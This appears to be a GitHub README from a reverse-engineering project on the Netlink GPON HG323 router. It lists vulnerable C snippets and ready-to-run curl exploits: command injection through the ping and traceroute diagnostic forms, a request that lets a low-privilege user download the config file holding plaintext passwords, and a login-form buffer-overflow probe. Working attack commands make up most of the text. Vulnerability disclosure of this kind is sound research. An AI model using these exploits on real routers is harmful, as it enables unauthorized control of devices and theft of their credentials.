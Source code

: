 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.16-191118

## RCE
Remote code can be executed by  exploiting either of the daignostics tool "Ping" or "Tracert". Inorder for this to work we should be logged in either as "user" or "admin"

### 1. formPing

vulnerable code


    snprintf(cmd_to_execute,0x100,"ping %s -c 4 -I %s -w 5 %s > /tmp/ping.tmp",param,interface_name,target_addr);


Here we can supply the "target_addr" with  "; payload"

exploit 

    curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formPing'


### 2. formTracert

similar to formPing

vulnerable code

    snprintf(cmd_to_execute,0x200,"traceroute %s -I -i %s %s > /tmp/tracert.tmp",param,&some_param,target_addr);

exploit

    curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formTracert'

## Dumping creds
We can use the rce exploit to view "/var/config/lastgood.xml" to view passwords or

There are two usernames for the web app
"user" and superuser "admin".
we can abuse the save  config file feature of admin  to get the config file while logged in as "user"

of course the passwords are stored in plain text.


exploit 


curl -s -L -d 'action=saveconfigfile&submit-url=' 'http://192.168.1.1/boaform/admin/formMgmConfig'

This gets the file "/var/config/lastgood.xml" 

## Buffer overflow
Buffer overflow in login form, Great!. One hell of a secure router!.

### vulnerable code

    strcpy(username, input_username)

curl http://192.168.1.1/boaform/admin/formLogin_en  --data-raw 'username=AAAAAAAAAA.....&psd=blah'









